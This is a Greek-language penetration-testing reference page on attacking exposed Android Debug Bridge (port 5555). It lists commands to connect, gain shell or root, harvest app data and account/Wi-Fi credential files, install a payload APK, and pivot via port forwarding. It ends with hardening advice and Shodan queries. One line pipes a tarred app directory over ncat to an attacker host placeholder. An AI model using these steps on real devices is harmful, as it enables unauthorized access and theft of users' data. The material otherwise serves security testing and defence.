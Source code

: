 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Από [the docs](https://developer.android.com/studio/command-line/adb):

Το Android Debug Bridge (adb) είναι ένα εργαλείο γραμμής εντολών για επικοινωνία με συσκευές και εξομοιωτές που βασίζονται σε Android. Τυπικές ενέργειες περιλαμβάνουν την εγκατάσταση πακέτων, την αποσφαλμάτωση και την απόκτηση ενός διαδραστικού Unix shell στη συσκευή.

- Ιστορική προεπιλεγμένη θύρα TCP: 5555 (κλασική λειτουργία "adb tcpip").
- Σύγχρονη ασύρματη αποσφαλμάτωση (Android 11+) χρησιμοποιεί TLS pairing και mDNS service discovery. Η θύρα σύνδεσης είναι δυναμική και ανακαλύπτεται μέσω mDNS; μπορεί να μην είναι 5555. Η ζεύξη γίνεται με adb pair host:port ακολουθούμενη από adb connect. Δείτε τις σημειώσεις παρακάτω για επιθετικές επιπτώσεις.

Παράδειγμα δακτυλοσκοπίας nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Συνδέσου

Αν βρεις το ADB εκτεθειμένο και προσβάσιμο, προσπάθησε να συνδεθείς και να καταγράψεις γρήγορα:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Αν η συσκευή επιβάλλει την αυθεντικοποίηση ADB (ro.adb.secure=1), θα χρειαστεί να είστε προεξουσιοδοτημένοι (USB RSA auth) ή να χρησιμοποιήσετε την ασύρματη ζεύξη αποσφαλμάτωσης Android 11+ (η οποία απαιτεί έναν κωδικό μίας χρήσης που εμφανίζεται στη συσκευή).
- Ορισμένες εικόνες προμηθευτών, κατασκευές engineering/userdebug, εξομοιωτές, τηλεοράσεις, STBs και κιτ ανάπτυξης εκθέτουν το adbd χωρίς αυθεντικοποίηση ή με το adbd να τρέχει ως root. Σε αυτές τις περιπτώσεις, θα προσγειωθείτε συνήθως απευθείας σε ένα shell ή root shell.

Για μια γενική αναφορά εντολών ADB, δείτε:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Γρήγορη Μετά-Εκμετάλλευση

Μόλις έχετε shell, επιβεβαιώστε τα δικαιώματα και το πλαίσιο SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Καταμέτρηση και συλλογή δεδομένων

- Λίστα τρίτων εφαρμογών και διαδρομών:
```bash
pm list packages -3
pm path <pkg>
```
- Αν έχετε root (adb root ή su λειτουργεί), μπορείτε να έχετε πρόσβαση στο /data απευθείας. Αν όχι, προτιμήστε το run-as για εφαρμογές που μπορούν να αποσφαλματωθούν:
```bash
# Χωρίς root, για μια αποσφαλματωμένη εφαρμογή
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Με root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Χρήσιμα συστήματα τεκμηρίωσης (απαιτείται root):
- /data/system/users/0/accounts.db και σχετικά δεδομένα AccountManager
- /data/misc/wifi/ (ρυθμίσεις/κλειδιά δικτύου σε παλαιότερες εκδόσεις)
- Ειδικές βάσεις δεδομένων SQLite και shared_prefs κάτω από /data/data/<pkg>

Μπορείτε να το χρησιμοποιήσετε για να ανακτήσετε ευαίσθητες πληροφορίες (π.χ., μυστικά εφαρμογής). Για σημειώσεις σχετικά με τις παρατηρήσεις δεδομένων του Chrome, δείτε το ζήτημα που αναφέρεται [εδώ](https://github.com/carlospolop/hacktricks/issues/274).

### Εκτέλεση κώδικα και παράδοση payload

- Εγκαταστήστε και αυτόματα παραχωρήστε δικαιώματα εκτέλεσης:
```bash
adb install -r -g payload.apk         # -g παραχωρεί όλα τα δικαιώματα εκτέλεσης που δηλώνονται στο manifest
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Ξεκινήστε δραστηριότητες/υπηρεσίες/εκπομπές απευθείας:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Προώθηση θυρών και pivoting

Ακόμα και χωρίς root, το adb μπορεί να προωθήσει τοπικές θύρες σε θύρες συσκευής και το αντίστροφο. Αυτό είναι χρήσιμο για την πρόσβαση σε υπηρεσίες που είναι δεσμευμένες τοπικά στη συσκευή ή για την έκθεση υπηρεσιών επιτιθέμενου στη συσκευή.

- Προώθηση host->device (πρόσβαση σε μια τοπική υπηρεσία της συσκευής από τον υπολογιστή σας):
```bash
adb forward tcp:2222 tcp:22       # Αν η συσκευή τρέχει SSH (π.χ., Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Εκθέστε τον τοπικό διακομιστή αποσφαλμάτωσης της εφαρμογής
```
- Αντίστροφη device->host (να επιτρέψετε στη συσκευή να φτάσει σε μια υπηρεσία στον υπολογιστή σας):
```bash
adb reverse tcp:1080 tcp:1080     # Οι εφαρμογές της συσκευής μπορούν τώρα να φτάσουν στο host:1080 ως 127.0.0.1:1080
```
- Εξαγωγή αρχείων μέσω sockets (χωρίς εγγραφές sdcard):
```bash
# Στον υπολογιστή: άκου
ncat -lvp 9000 > dump.tar
# Στη συσκευή: στείλτε τον κατάλογο ως tar (root ή run-as όπως απαιτείται)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Ασύρματη αποσφαλμάτωση (Android 11+)

Ο σύγχρονος Android υλοποιεί την ασύρματη αποσφαλμάτωση προστατευμένη με TLS με ζευγάρωμα από την πλευρά της συσκευής και ανακάλυψη mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Σημειώσεις
- Οι θύρες είναι δυναμικές; μην υποθέτετε 5555. Τα ονόματα υπηρεσιών mDNS μοιάζουν με:
- _adb-tls-pairing._tcp (ζευγάρωμα)
- _adb-tls-connect._tcp (συνδεδεμένο ζευγάρωμα)
- _adb._tcp (παλαιά/απλή)
- Εάν το mDNS είναι φιλτραρισμένο, η κλασική ενεργοποίηση μέσω USB μπορεί να λειτουργήσει σε ορισμένες εκδόσεις: `adb tcpip 5555` και στη συνέχεια `adb connect <ip>:5555` (μέχρι την επανεκκίνηση).

Επιθετικές επιπτώσεις: εάν μπορείτε να αλληλεπιδράσετε με το UI της συσκευής (π.χ., φυσική πρόσβαση ή κακή ρύθμιση MDM κινητού) για να ενεργοποιήσετε την ασύρματη αποσφαλμάτωση και να δείτε τον κωδικό ζευγαρώματος, μπορείτε να δημιουργήσετε ένα μακροχρόνιο ζευγαρωμένο κανάλι ADB χωρίς καλώδιο. Ορισμένοι OEMs εκθέτουν το ADB μέσω TCP σε εικόνες μηχανικής/ανάπτυξης χωρίς ζευγάρωμα—πάντα ελέγξτε.

## Σκληροποίηση / Ανίχνευση

Οι αμυντικοί θα πρέπει να υποθέτουν ότι οποιοδήποτε προσβάσιμο adbd (TCP) είναι κρίσιμος κίνδυνος.

- Απενεργοποιήστε το ADB και την ασύρματη αποσφαλμάτωση όταν δεν χρειάζεστε. Ανακαλέστε τις εξουσιοδοτήσεις αποσφαλμάτωσης USB στις επιλογές προγραμματιστή.
- Βεβαιωθείτε ότι η πολιτική δικτύου μπλοκάρει την εισερχόμενη TCP/5555 και την ανακάλυψη ADB μέσω mDNS σε μη αξιόπιστα τμήματα.
- Σε συσκευές υπό τον έλεγχό σας:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # απενεργοποίηση ακρόασης TCP (ή χρησιμοποιήστε: adb usb)
stop adbd; start adbd             # επανεκκίνηση του δαίμονα
```
- Παρακολουθήστε για εγγραφές mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` σε εταιρικά δίκτυα και ειδοποιήσεις για απροσδόκητους ακροατές 5555.
- Καταγράψτε για ανασφαλείς εκδόσεις: `getprop ro.debuggable`, `ro.build.type`, και `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Αναφορές

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
